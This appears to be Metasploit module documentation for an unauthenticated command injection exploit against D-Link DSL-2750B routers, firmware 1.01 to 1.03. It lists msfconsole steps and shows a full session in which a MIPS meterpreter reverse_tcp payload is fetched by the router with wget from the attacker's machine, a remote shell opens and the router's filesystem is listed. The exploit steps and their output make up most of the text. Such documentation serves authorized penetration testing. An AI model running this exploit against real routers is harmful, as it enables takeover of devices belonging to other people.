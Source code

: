 This module dlink_dsl2750b_exec_noauth exploits unauthenticated command injection vulnerability through "cli" parameter.
Vulnerable firmwares are 1.01 up to 1.03.

## Vulnerable Application

  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dsl2750b_exec_noauth`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget method and executed giving us meterpreter session


## Example

```
msf5 > use exploit/linux/http/dlink_dsl2750b_exec_noauth 
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp 
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LHOST eth0
LHOST => eth0
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LPORT 5555
LPORT => 5555
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > run

[*] Started reverse TCP handler on 192.168.1.6:5555 
[*] 192.168.1.1:80 Checking target version...
[*] Using URL: http://0.0.0.0:8080/V9GiueD0WW
[*] Local IP: http://192.168.1.6:8080/V9GiueD0WW
[*] Client 192.168.1.1 (Wget) requested /V9GiueD0WW
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (1104216 bytes) to 192.168.1.1
[*] Meterpreter session 18 opened (192.168.1.6:5555 -> 192.168.1.1:37259) at 2018-05-13 14:58:08 -0400
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

meterpreter > ls -la
Listing: /
==========

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40755/rwxr-xr-x   2554    dir   2013-03-11 07:27:09 -0400  bin
40755/rwxr-xr-x   3       dir   2013-03-11 07:27:54 -0400  data
40755/rwxr-xr-x   2482    dir   2013-03-11 07:27:56 -0400  dev
40755/rwxr-xr-x   779     dir   2013-03-11 07:27:55 -0400  etc
40755/rwxr-xr-x   690     dir   2013-03-11 07:27:55 -0400  lib
100755/rwxr-xr-x  287124  fil   2013-03-11 07:27:55 -0400  linuxrc
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:01 -0500  mnt
40755/rwxr-xr-x   56      dir   2013-03-11 07:13:15 -0400  opt
40555/r-xr-xr-x   0       dir   1969-12-31 19:00:00 -0500  proc
40755/rwxr-xr-x   270     dir   2013-03-11 07:25:43 -0400  sbin
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:00 -0500  sys
40755/rwxr-xr-x   0       dir   2016-10-07 17:20:39 -0400  tmp
40755/rwxr-xr-x   38      dir   2013-03-11 07:23:32 -0400  usr
40755/rwxr-xr-x   0       dir   2016-10-07 17:16:34 -0400  var
40755/rwxr-xr-x   2801    dir   2013-03-11 07:26:34 -0400  webs

```
